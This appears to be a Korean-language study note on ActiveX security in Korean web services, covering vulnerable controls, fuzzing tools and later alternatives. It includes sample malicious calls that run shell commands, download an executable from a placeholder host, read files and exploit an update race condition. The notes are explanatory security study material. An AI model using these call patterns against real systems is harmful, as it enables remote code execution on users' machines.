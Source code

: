 ActiveX
===

Active X = ole + com

internet explorer : 엑티브 엑스를 타 언어에서 실행시킬 수 있음

인자 전달 방식
	1. obj1.callmethod('hellsonic', 'ccc', 1);

	2.
		<object id = 'obj1' classid = '~'>
			<param ~>
			<param ~>
		</object>

		obj1.callmethod();

설계상 자바스크립트는 exe 를 이길 수 없음 <br>
=> js 만으로 커널단의 키보드 보안, 화면 보안을 할 수 없음

한구의 KI 기술을 무시할 수 없음, 굉장히 고려해야할 점이 많음
완전히 다른 방식으로 바꾼다는 것을 고려하지 못하는 이유이기도 함
암호화 모듈과 같은 것도 JS 로 포팅할 수 없음 -> activex 로 사용 (현재는 많이 대체됨 )

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 악성 URL 로 유도 개인 타겟을 이용한 공격

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 사용자들이 많이 방문하는 홈페이지의 iframe 을 통해 감염
PC <br>
-> A에서만 호출 되야 할 ActiveX 가 어디서든 호출 가능 : 가장 큰 문제 <br>
-> 악성 페이지에서 호출이 됬는지 정상 페이지에서 호출이 됬는지 분간이 어려움

2년전만 해도 active x 가 shell 을 실행할 수 있었음 :

    ViewerX.Execute('netstat -an');
    ViewerX.DOwnloadFromURL('https://blabla.com/a.exe', 'C:/a.exe');

편의를 위한 함수이지만, 취약점이 크게 발생

    ViewX.ReadFile('C:/read.txt');
파일을 읽을 수 있음 ( + write delete)
registry read write delete

서비스를 이용하는 다수의 보안 프로그램 설치를 요구 <br>
-> 설치하지 않으면 서비스를 이용하지 못하므로 모두 설치 해야됨
무조건 '예' 를 눌러 설치하는 것은 힘듬

race condition 발견도 가능

    ViewerX.CheckUpdate("http://www.com/a.exe');
    ViewerX.Run('a.exe');
checkupdate : tmp 파일에 떨군후 인증서와 같은 검사를 함 <br>
-> 삭제 run : 실행 <br>
 : 삭제와 실행이 동시 실행 , race condition

update url 이 언제 바뀔지 모르기 때문에,
*ViewerX.CheckUpdate('http://update.kr/viewer.ini');* 를 통해 정보를 받아와 업데이트 <br>
-> 자체 검사 루틴이 존재하지 않으면 위조시 확인할 수 없음

Fuzzing::ComRaider - DLL 불러와서 Fuzzing - BOF 외의 다른 취약점을 찾을 수 없음
AxMan - Java sciprt 로 구현, class id 에 object id 를 넣으면, 막 돌면서 bof 를 찾음 <br>
 : crash 를 내기만 할 뿐 로깅 기능을 하지 않음
dranzer - bof 밖에 못찾기는 하지만, exception 과 로깅 기능이 모두 존재 : user interaction 이 불필요
	g 옵션을 통해 파일 떨궈 인풋으로 주면 알아서 돔

COM 기반이기 떄문에 Method 주소가 직관적으로 보이지 않음
attach internet explorer 해서 dispcallfunction 에서 ecx 에 걸린놈이 함수 주소

천송이 코트 사건으로 이해 active x 의무 설치 규정을 폐지

active x 이후에는 exe 파일을 배포 <br>
-> 사용자는 수동으로 설치 해결된 문제 : 오픈앱을 사용 <br>
-> 브라우져 상관 없이 가능
하지만, OS 를 넘지는 못함

exe 와 explorer 의 통신 : 자체 웹 서버, custom uri scheme, web socket 기술로 통신

custom uri scheme : registry : root : uri shceme name : shell : open : command
kakaotalk://url ~&param=
이라면 root 아래 kakatalk 폴더에서 command 를 타고 가 실행하게 됨
but 사용자 마음대로 직접 호출이 가능하고, 버그가 발생할 수 있음
결과값을 받아오기 매우 힘듬

web socket : corss-origin resource sharing 을 활용한 IE 와 localhost 의 웹서버와 통신<br>
크로스 도메인이라는 문제 발생 <br>
\+ 해킹할 때 web socket 으로 보안 중지를 요청하면 무용지물
JSONP 를 이용한 통신도 가능 <br>
\+ http5 웹소켓을 통한 통신도 가능

exe 파일 안했으면 좋겠다 <br>
js 랑 full html5 로 만들었으면 좋겠다 <br>
-> 두 기술을 이용해 공인인증서 관리 가상 키보드 구현 <br>
-> 익스플로러가 html 과 js 만 지원한다면 가능 <br>
-> 공인인증서 관리 : 로컬 스토리지 (브라우져 내부 저장소) <br>
-> 가상 키보드 : full js 를 사용하여 구현 <br>
but 키보드나 자바 스크립트만으로는 키보드 보안을 할 수 없다.  <br>
(js 로 user level 프로그램을 관리할 수 없음 )

스마트폰을 이용한 확인 : FIDO fast identity online 이용
PIN 인증서 지문 안면 홍채  <br>
-> 서버 -> 간편인증

온라인 상품 구매  <br>
-> QR 코드 스캔을 통한 스마트폰 인증  <br>
-> 등록된 카드로 결제 <br>
편리함 증가  <br>
-> 보안성 감소
